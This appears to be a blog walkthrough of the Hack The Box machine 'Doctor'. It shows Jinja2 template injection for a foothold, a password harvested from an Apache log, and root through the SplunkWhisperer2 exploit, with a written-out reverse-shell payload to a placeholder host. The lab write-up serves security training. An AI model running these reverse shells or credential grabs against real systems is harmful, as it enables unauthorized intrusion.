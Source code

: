```yaml
---
layout: post
title: Hackthebox - Doctor
date: 2021-02-07 19:00:00 +0000
category: [Hackthebox, Linux]
tags: [htb,linux,easy]
---
```


---
Doctor is a easy box where the initial foothold is obtained by exploiting the ```Server Side Template Injection```(SSTI) vulnerability. It took me a fair amount of time for me to get how the SSTI could be used in the title of the post. But rooting the box was a piece of cake since I found an interesting script to exploit ```Splunkd```. The final objective is to get the user and the root flag.
<br>
![cover_image](/assets/img/hackthebox/doctor/1.png)

**Author** | egotisticalSW
**Operating System** | Linux
**Difficulty** | Easy


Connect to ```Hackthebox``` and let's go.

## <ins>Enumeration</ins>
---
Let's start with the ```nmap``` scan.
<br>
![nmap_scan](/assets/img/hackthebox/doctor/nmap_scan.png)
<br>
The results of the nmap scan showed that the three ports: ```22/ssh```, ```80/http``` and ```8089/splunkd``` are open on the machine.

Leaving the the ```ssh``` and ```splunkd``` services aside, let's start enumerating the ```http``` service. The home page of the http service gives us a valuable piece of information.
<br>
![doctors_htb](/assets/img/hackthebox/doctor/2.png)
<br>
Add ```doctors.htb``` to ```/etc/hosts``` file. ```Sudo``` permission is required to edit the file.
<br>
<pre>
10.10.10.209    doctors.htb
</pre>
<br>
After adding the url, revisit the ```http service``` with the url ```doctors.htb```. If you did everything correct, you should see the login page. Don't bother checking for ```common credentials``` and ```SQLi``` based vulnerabilities. Because I did and wasted a bit of time. Instead create a new account and login with the same account.

After logging in, create a ```New Message```.
<br>
![auth_page](/assets/img/hackthebox/doctor/3.png)
<br>
Creating a post, I searched around for hints and stumbled upon something ineresting in the source page.
<br>
![archive_page](/assets/img/hackthebox/doctor/6.png)
<br>
Going to the ```/archive``` directory, it was just...blank.

At first, I didn't know that the ```title of the post``` and the ```/archive``` page is somewhat linked, so I tried triggering an alert box with XSS but had no luck with it. After figuring out that the title of the post is reflected in the archive page, I tried doing HTML injection which succeeded. Then, I checked for the ```SSTI``` using common payloads from ```PayloadsAlltheThings```. I updated the post to the following.
<br>
![update_post](/assets/img/hackthebox/doctor/4.png)
<br>
And checked the ```/archive``` directory.
<br>
![archive_page](/assets/img/hackthebox/doctor/5.png)
<br>
We can see that the payload ```7+7``` is executed and results in ```14```. This means that the website uses ```Flask``` and ```Jinja2``` to render the website. 

You can learn more about ```SSTI``` vulnerability in the ```Portswiger Academy```.


## <ins>Exploitation</ins>
---
I tried crafting my own payload but in the end I grabbed the ```SSTI``` payload from the ```PayloadsAlltheThings``` page and entered it in the title of the post.
<br>
![payload_ssti](/assets/img/hackthebox/doctor/16.png)
<br>
Here is the link to the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---remote-code-execution). Change the call parameter to ```/bin/bash -i```. And finally post the content.
<br>
![post_content](/assets/img/hackthebox/doctor/7.png)
<br>
Open a ```netcat``` listener in your local machine. And go to the ```/archive``` page to get the reverse shell.
<br>
![reverse_shell](/assets/img/hackthebox/doctor/8.png)
<br>


## <ins>User flag</ins>
---
I transferred ```linpeas``` into the remote machine and executed it. After going through results I found a lot of ```passwords``` strings. And one of them was actually a password. Also, I found the username ```shaun```.
<br>
![password_file](/assets/img/hackthebox/doctor/9.png)
<br>
I wanted to confirm it just in case...so I cat-ed out the file.
<br>
![password_file_confirm](/assets/img/hackthebox/doctor/10.png)
<br>
<pre> cat /var/log/apache2/backup | grep password</pre>
<br>
Now we can change the user to ```shaun``` with the password we just found. 

Stabilize the shell using ```python3 -c 'import pty;pty.spawn("/bin/bash")'```. In the home directory of the user ```shaun``` we can find the ```user flag```.
<br>
![shaun_su](/assets/img/hackthebox/doctor/11.png)
<br>


## <ins>Root flag</ins>
---
Going back to the ```nmap``` scan results we didn't enumerate the ```8089/splunkd``` port/service.
<br>
![splunkd_ss](/assets/img/hackthebox/doctor/15.png)
<br>
I tried googling publicly available exploits for splunk and this link peeked my interest. Here is the [link](https://github.com/cnotin/SplunkWhisperer2) to the exploit.
<br>
![splunk_link](/assets/img/hackthebox/doctor/12.png)
<br>
I cloned the repository and moved into the ```./SplunkWhisperer2/PySplunkWhisperer2/``` directory. It is an authenticated exploit. For syntax you can just run the python file or you can read the documentation in the github page.
<br>
<pre>python3 PySplunkWhisperer2_remote.py --lhost your-vpn-ip --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "bash -i >& /dev/tcp/your-vpn-ip/4445 0>&1"'</pre>
<br>
Open a netcat listener in your local machine to get the reverse shell and run the file.
<br>
![splunk_exploit](/assets/img/hackthebox/doctor/13.png)
<br>
The root flag can be found in the /root directory.
<br>
![root_flag](/assets/img/hackthebox/doctor/14.png)
<br>

Peace out!!!

That's it folks. Happy hacking!!!
